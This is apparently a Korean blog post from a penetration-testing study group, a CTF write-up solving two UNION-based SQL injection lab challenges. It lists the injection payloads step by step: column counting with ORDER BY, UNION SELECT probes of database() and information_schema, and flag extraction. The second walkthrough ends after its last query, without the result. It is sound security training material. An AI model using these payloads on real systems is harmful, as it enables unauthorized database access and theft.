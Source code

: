 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[SECURITY] CTF 문제 풀이: SQL Injection w. UNION"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-25
last_modified_at: 2024-11-25

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# SQL INJECTION 1
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-1.png?raw=true)
처음 들어가면 볼 수 있는 화면이다. SQL Injection 문제라고 제목부터 박혀있으니 얌전히 query문을 작성하겠다.

## SQL Query 파악
1. **adminer**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-2.png?raw=true)
    -> 🤔 대소문자 구분이 없구나!
2. 🫣 ~~adminer'~~
    -> X
3. **a%**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-3.png?raw=true)
    -> 🤔 like 구절이 있구나
4. 🫣 ~~a#~~
    -> X
5. 🫣 ~~a'#~~
-> X
6. **a%'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-4.png?raw=true)
-> 🫣 ~~입력값이 들어가는 곳이 like 위치인가 보다~~
-> 🤔 query에 괄호 안 사용하고 주석 필터링 없나 보다
7. 🫣 ~~' and '1' = '1~~
-> X
8. 🫣 ~~%' and '1' = '1~~
-> X
9. **' and '1' = '1'#**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-5.png?raw=true)
-> 

## column 개수 파악하기
10. **' order by 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-6.png?raw=true)
11. ' order by 1, 2, 3, 4, 5 #
-> X
-> 🤔 column의 개수가 4개구만

## UNION 사용 가능한지 확인하기
12. **' union select 1, 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-7.png?raw=true)
-> 예압 아주 사뿐하게 사용 가능했다.

## DATABASE 이름 확인하기
13. **' union select database(), 2, 3, 4 #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-8.png?raw=true)
-> database 이름은 sqli_1이었다.

## TABLE 이름 확인하기
19. **' union select table_name, 2, 3, 4 from information_schema.tables where table_schema = 'sqli_1' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-9.png?raw=true)
-> table이 총 3개가 나왔는데, 딱 봐도 수상해 보이는 flag_table와 plusFlag_Table를 먼저 시도하기로 했다.

## COLUMN 이름 확인하기
20. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'flag_table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-10.png?raw=true)
-> flag_table에서는 flag라는 column을 확인할 수 있었다.

21. **' union select 1, column_name, 3, 4 from information_schema.columns where table_name = 'plusFlag_Table' #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-11.png?raw=true)
-> plusFlag_Table에서는 idx과 flag라는 column들을 확인할 수 있었다.

## DATA 추출하기
22. **' union select flag, 2, 3, 4 from flag_table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-12.png?raw=true)

23. **' union select idx, flag, 3, 4 from plusFlag_Table #**
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-25-13.png?raw=true)

# SQL INJECTION 2
## SQL Query 파악
1. normaltic
-> 보이는 column은 ID, Level, Rank Point, info
2. normaltic' and '1' = '1
-> O
-> ID가 입력한 그대로 보임
3. *
-> row가 1개인가봐

## column 개수 파악하기
4. normaltic' order by 1, 2, 3, 4 #
-> O
5. normaltic' order by 1, 2, 3, 4, 5 #
-> O
6. normaltic' order by 1, 2, 3, 4, 5, 6 #
-> O
7. normaltic' order by 1, 2, 3, 4, 5, 6, 7 # 
-> X
-> column: 6

## 출력되는 column 위치 찾기, DATABASE 이름 확인하기
8. ' union select database(), 2, 3, 4, 5, 6 #
-> X
-> 1 column 비공개다
9. ' union select 1, database(), 3, 4, 5, 6 #
-> 2 column 비공개다
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 6 column 공개

## TABLE 이름 확인하기
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> flag_honey

## COLUMN 이름 확인하기
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'flag_honey' #
-> flag

## DATA 추출하기
13. ' union select 1, 2, 3, 4, 5, flag from flag_honey #
-> kkkkkkk_Not Here!
-> 어쩐지 구라핑의 냄새가 나더라


왜 1개씩 밖에 안 보일까?
-> row가 딱 한 개다?
14. ' or '1' = '1
-> row 1개
10. ' union select 1, 2, 3, 4, 5, database() #
-> sqli_5
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
11. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' #
-> 다른 row가 더 있는데 안 보이는 게 아닐까?
-> row가 한 개 밖에 안 보이니까
-> 다른 table이 있는 데 안 보이는 거지
12. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables order by 6 desc#
-> view라는 다른 table이 보여요 좋아요
13. ' union select 1, 2, 3, 4, 5, table_name from information_schema.tables where table_schema = 'sqli_5' order by 6 desc #
-> secret
12. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' #
-> flag
13. ' union select 1, 2, 3, 4, 5, flag from secret #
-> NONONO~
14. ' union select 1, 2, 3, 4, 5, column_name from information_schema.columns where table_name = 'secret' order by 6 #
-> flag
15. ' union select 1, 2, 3, 4, 5, flag from secret order by 6 desc #